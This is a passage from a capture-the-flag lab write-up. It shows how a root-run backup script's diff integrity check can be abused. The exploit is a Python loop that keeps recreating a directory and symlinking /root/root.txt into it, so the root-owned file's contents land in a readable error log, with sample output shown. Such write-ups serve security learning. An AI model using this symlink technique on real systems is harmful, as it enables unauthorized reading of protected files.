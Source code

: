 ```bash
# Test the backup integrity
integrity_chk()
{
    /usr/bin/diff -r $basedir $check$basedir
}
```

After substiuting in the variables, the sole command it runs is `/usr/bin/diff -r /var/www/html /var/tmp/check/var/www/html`. It basically checks the difference in content between these 2 directories.

Further down, 

```bash
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
```

If the `integrity_chk` reports a single difference, it will be logged to `/var/backups/onuma_backup_error.txt`. 

# Exploitation (3)

To read the `root` flag, we can create symbolic link in `/var/tmp/check/var/www/html` that is linked to `/root/root.txt`. When the `backuperer` is executed, the difference caused by the creation caused by the new symbolic link will result inthe contents of the root flag to be saved to `/var/backups/onuma_backup_error.txt`. However, the `/var/tmp/check` folder will be deleted during every execution so we will need to constantly create our files and folders.

```python
import os 

while True:
    os.system("mkdir -p /var/tmp/check/var/www/html ; ln -s /root/root.txt /var/tmp/check/var/www/html/robots.txt 2> /dev/null")
```

We then run this script in the background.

```bash
python spam.py &
```

# root.txt

Subsequently, when `backuperer` is executed again, the contents of the root flag is saved to `/var/backups/onuma_backup_error.txt`!

```bash
cat /var/backups/onuma_backup_error.txt
...
------------------------------------------------------------------------
/var/tmp/.c33645ed5eb387ca0d962fafac5681ef29866777
diff -r /var/www/html/robots.txt /var/tmp/check/var/www/html/robots.txt
1,7c1
< User-agent: *
< Disallow: /webservices/tar/tar/source/
< Disallow: /webservices/monstra-3.0.4/
< Disallow: /webservices/easy-file-uploader/
< Disallow: /webservices/developmental/
< Disallow: /webservices/phpmyadmin/
< 
```